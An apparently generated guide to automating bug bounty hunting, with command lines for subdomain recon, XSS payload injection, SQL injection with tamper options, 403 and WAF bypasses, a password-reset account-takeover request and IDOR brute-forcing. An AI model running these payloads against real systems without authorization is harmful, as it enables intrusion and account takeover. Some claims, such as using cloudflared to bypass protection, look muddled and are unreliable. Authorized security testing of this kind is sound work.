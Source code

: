 Here's a comprehensive guide to automating bug bounty processes with recent techniques from Twitter (#BugBounty) and Medium articles, incorporating the latest trends and tools:

---

### **1. Automated Reconnaissance & Subdomain Enumeration**
- **Cloudflare Bypass**:  
  Use `cloudflared` tunneling and header manipulation (`X-Forwarded-For`, `CF-Connecting-IP`) to bypass protections. Tools like `cf-check` identify misconfigured Cloudflare setups.  
  ```bash
  cloudflared tunnel --url http://localhost:8080 & cf-check -t $TARGET
  ```

- **Subdomain Discovery**:  
  Combine passive/active methods:
  ```bash
  subfinder -d $TARGET -all -silent | amass enum -passive -d $TARGET | httpx -title -status-code -o live_subs.txt
  ```
  - Use **CSP Analysis** to discover hidden domains: `curl -s $URL | grep -i 'content-security-policy'` .

---

### **2. Vulnerability Scanning Automation**
- **XSS Automation**:  
  Use `Rooter` script with `waybackurls`, `gospider`, and `knoxnl` for payload testing :
  ```bash
  waybackurls $TARGET | grep "=" | qsreplace '"><script>alert(1)</script>' | httpx -silent -mc 200
  ```

- **SQLi & RCE**:  
  - **Ghauri** for advanced SQLi:  
    ```bash
    ghauri -u "$URL?id=1" --dbs --batch --time-sec 10 --tamper=between,charencode
    ```
  - **Race Condition Testing**:  
    Use `RaceTheWeb` to exploit parallel request vulnerabilities .

---

### **3. Recent Bypass Techniques**
- **403 Bypass**:  
  ```bash
  curl -H "X-Original-URL: /admin" $TARGET  # Bypass restricted paths
  ```
  - Test path variations: `/admin..;/`, `/admin/..`, or `/./admin//`.

- **Email/Parameter Manipulation**:  
  - **Account Takeover**:  
    ```bash
    curl -X POST -d "email=victim@example.com,hacker@example.com" $TARGET/reset-password
    ```
  - **IDOR via UUID**: Bruteforce UUIDs in API endpoints using `ffuf`:
    ```bash
    ffuf -w uuids.txt -u "$API/users/FUZZ/profile" -mc 200
    ```

---

### **4. JavaScript & API Analysis**
- **JS Secret Extraction**:  
  ```bash
  subjs -t 20 -o js_files.txt && cat js_files.txt | grep -Ei "api_key|token|password"
  ```
- **API Route Discovery**:  
  Use `kiterunner` to brute-force endpoints:
  ```bash
  kr scan $API_URL -w routes-large.kite -o api_routes.txt
  ```

---

### **5. Automation Workflow Tools**
- **Nuclei + Notifications**:  
  ```bash
  nuclei -l live_subs.txt -t ~/nuclei-templates/ -severity critical -silent | notify -bulk -telegram
  ```
- **GitHub Secret Scanning**:  
  ```bash
  gitallsecrets -u $TARGET -o secrets.txt
  ```

---

### **Top 5 Medium/Twitter Tips (2024-2025)**
1. **CVE Matching**: Use `vulners` with Nmap to map versions to exploits .  
2. **SSRF Bypass**: Test alternative `localhost` payloads like `http://0177.00.00.01` .  
3. **PDF/PPTX XXE**: Upload malicious files to trigger external entity processing .  
4. **WAF-Bypass XSS**: Use `%0d%0a` or Unicode encoding in parameters .  
5. **Subdomain Takeovers**: Monitor `CNAME` changes with `subdosec` .

---

### **Resources**
- **GitHub Tools**: `bugradar` for program monitoring, `Dalfox` for XSS .  
- **Medium Guides**: [RFI-to-RCE chains](https://medium.com/tag/bug-bounty) , [Wayback Machine recon](https://medium.com/@Bendelladj) .

For full scripts and methodology, refer to [Bug Bounty Hunting Methodology 2025](https://github.com/amrelsagaei/) and [XSS Automation](https://github.com/shubham-rooter/) .
